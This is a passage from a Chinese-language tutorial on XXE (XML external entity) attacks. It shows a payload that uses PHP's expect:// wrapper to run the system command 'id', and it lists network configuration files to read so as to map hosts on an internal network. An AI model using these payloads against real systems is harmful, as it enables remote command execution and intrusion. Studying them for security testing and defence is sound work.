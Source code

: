 ```php
<message>any text</message>
```

## 1.4、命令执行

目标环境的特殊配置导致 XML 与某些命令操作关联，从而造成命令执行的可能性。如果目标内部的 PHP 环境中安装了 expect 扩展，并且该扩展被加载到了处理 XML 的内部应用程序上，就可以利用 expect 来执行系统命令。

Expect 扩展是一个用于自动化交互的套件，它可以在执行命令和程序时，模拟用户输入指定的字符串，以实现交互通信。如果能够成功利用这个扩展，就可以通过构造恶意的 XML 数据，触发命令执行，进而执行任意系统命令。

```php
<?xml version="1.0" encoding="utf-8"?>

<!ENTITY xxe SYSTEM "expect://id" >]>
<root>
<name>&xxe;</name>
</root>
```

![image.png](assets/1700812438-102ea11f0465faab92d7c62b50f6382e.png)

## 1.5、内网主机探测

当我们成功利用了 XXE 漏洞，下一步就是尝试读取服务器的网络配置文件，以获取内网的相关信息。/etc/network/interfaces、/proc/net/arp 和/etc/hosts 都是可能包含有用信息的文件。

```php
/etc/network/interfaces：这个文件通常包含服务器的网络接口配置信息，您可以从中找到内网的IP地址和网段。

/proc/net/arp：这个文件保存了地址解析协议（ARP）的缓存表，您可以从中获取到与内网中其他主机进行通信的主机的MAC地址和IP地址。

/etc/hosts：这个文件是Linux系统上的主机文件，用于IP地址和域名的快速解析。您可以查看文件中是否有内网主机的映射关系。
```
